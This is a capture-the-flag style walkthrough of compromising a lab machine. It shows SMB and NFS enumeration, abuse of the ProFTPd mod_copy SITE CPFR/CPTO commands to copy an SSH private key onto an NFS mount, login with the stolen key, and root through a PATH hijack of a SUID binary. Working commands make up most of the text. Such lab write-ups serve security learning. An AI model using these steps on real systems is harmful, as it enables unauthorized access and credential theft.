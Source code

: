 ### Recon
```zsh
nmap ip -vvv
```

### SAMBA enumeration
Samba is the standard Windows interoperability suite of programs for Linux and Unix.

```zsh
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse MACHINE_IP
```
to further investigate the `samba` service. 

### getting file from share directory 

```zsh
smbget -R smb://MACHINE_IP/anonymous
```

### getting information from the file obtained
` rpcbind ` - is a system process that plays a crucial role in network communication, particularly for network services that use Remote Procedure Calls (RPC).

```zsh
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount MACHINE_IP
```

`rpcbind` - runs on port 111 in our case

### transferring the key from target to attacker machine
1. First, copy the file to a mount point,  _how?_  There's another service on the server, `ftp` and it's version is `ProFTPd`. This version has a vulnerability to exploit - mod_copy module is one of them.
   
   ```zsh
   nc MACHINE_IP port_number
``` 
This opens up a field to perform copying of our desire. The mod_copy module implements **SITE CPFR** and **SITE CPTO** commands, which can be used to copy files/directories from one place to another on the server. Any unauthenticated client can leverage these commands to copy files from any part of the file system to a chosen destination.


```zsh
SITE CPRF path_to_file_to_copy 
SITE CPTO path_to_mount_point
```

2. mounting 
   ```zsh
mkdir /mnt/kenobiNFS  
mount MACHINE_IP:/var /mnt/kenobiNFS
```

take a look at the shared directory, 
```zsh
ls -la /mnt/kenobiNFS
```

3. copying 
   ```zsh
   cp /mnt/kenobiNFS path_of_ur_desire
```

### logging in using ssh

```zsh
ssh -i id_rsa kenobi@MACHINE_IP
```

don't forget to change the permission of `id_rsa` before trying to login, `chmod 600 id_rsa` 

#### `PrivEsc` 

|   |   |   |
|---|---|---|
|**Permission**|**On Files**|**On Directories**|
|SUID Bit|User executes the file with permissions of the _file_ owner|-|
|SGID Bit|User executes the file with the permission of the _group_ owner.|File created in directory gets the same group owner.|
|Sticky Bit|No meaning|Users are prevented from deleting files from other users.|

1. finding `SUID` file 
   ```zsh
   find / -perm -u=s -type f 2>/dev/null
```
The `2>/dev/null` syntax in command-line operations is used to redirect the standard error (stderr) to `/dev/null`, which is a special file that discards all data written to it. This effectively silences any error messages produced by a command. Here’s a breakdown of the syntax:

- `2>`: This indicates that you are redirecting file descriptor 2, which is stderr.
- `/dev/null`: This is a special file that acts like a black hole. Anything written to it is ignored and disappears.
  
2. abuse the path. 
	move to `/tmp` directory, then ...
	
   ```zsh
   echo /bin/sh > ls
   chmod 777 ls
   export PATH=/tmp:$PATH
```
3. run the file you find with `suid` bit set. Now when interacting with this program, you will get a root shell, because to run that the program goes through binaries that are in captured by PATH variable. Therefore, `/bin/sh` got a chance to be executed. 

